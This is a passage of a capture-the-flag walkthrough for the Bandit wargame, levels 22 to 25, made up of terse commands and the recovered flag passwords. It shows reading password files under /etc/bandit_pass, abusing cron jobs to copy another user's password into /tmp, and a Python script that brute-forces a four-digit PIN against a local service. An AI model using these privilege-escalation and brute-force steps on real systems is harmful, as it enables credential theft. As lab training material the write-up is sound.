 >cat /etc/cron.d/*

>nano /usr/bin/cronjob_bandit22.sh

>#!/bin/bash
>chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
>cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

>cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

**Flag**
>Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI

### Bandit 23

>export myname=bandit23
>echo I am user $myname | md5sum | cut -d ' ' -f 1

cat /tmp/8ca319486bfbbc3663ea0fbe81326349

**Flag**
>jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

### Bandit 24

>#!/bin/bash
>cat /etc/bandit_pass/bandit24 > /tmp/space/level24
>cat > /var/spool/bandit24/test.sh
>chmod +x /var/spool/bandit24/test.sh
>watch cat /tmp/space/level24


**Flag**
>UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

### Bandit 25

>#coding: utf-8
import socket

>pin=0
passwd='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002))
s.recv(1024)
while True:
  print 'pin: ' + str(pin)
  s.sendall(passwd + str(pin) + '\n')
  data = s.recv(1024)
  if "Correct!" in data:
    print data
  else:
    print "Nop"
  pin += 1

>cat > /tmp/space/25.py
chmod +x /tmp/space/25.py

